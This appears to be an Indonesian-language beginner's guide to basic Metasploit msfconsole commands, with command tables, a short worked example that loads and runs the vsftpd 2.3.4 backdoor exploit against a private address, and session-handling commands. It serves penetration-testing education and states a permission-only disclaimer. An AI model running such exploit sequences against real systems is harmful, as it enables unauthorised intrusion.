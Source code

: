 # Perintah Dasar MSFconsole (Metasploit Console)

## A. Pengantar

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan `msfconsole`

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia |
| `search <keyword>` | Mencari `exploit`, `payload`, `auxiliary`, `dll` |
| `use <nama_modul>` | Memilih modul tertentu untuk digunakan |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih |
| `show options` | Menampilkan parameter yang bisa diatur pada modul |
| `set <parameter> <nilai>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`) |
| `unset <parameter>`	| Menghapus nilai parameter yang telah diatur |
| `show payloads	`| Menampilkan semua payload yang kompatibel |
| `show exploits`	| Menampilkan semua exploit yang tersedia |
| `show auxiliary` | Menampilkan modul bantu seperti scanner |
| `exploit` atau `run` | Menjalankan modul exploit |
| `back` | Kembali ke menu utama dari modul |
| `exit` atau `quit` | Keluar dari msfconsole |

## D. Contoh Penggunaan Sederhana

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <id>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <id>` | Menghentikan session tertentu |

## Tips Tambahan

- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <id>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
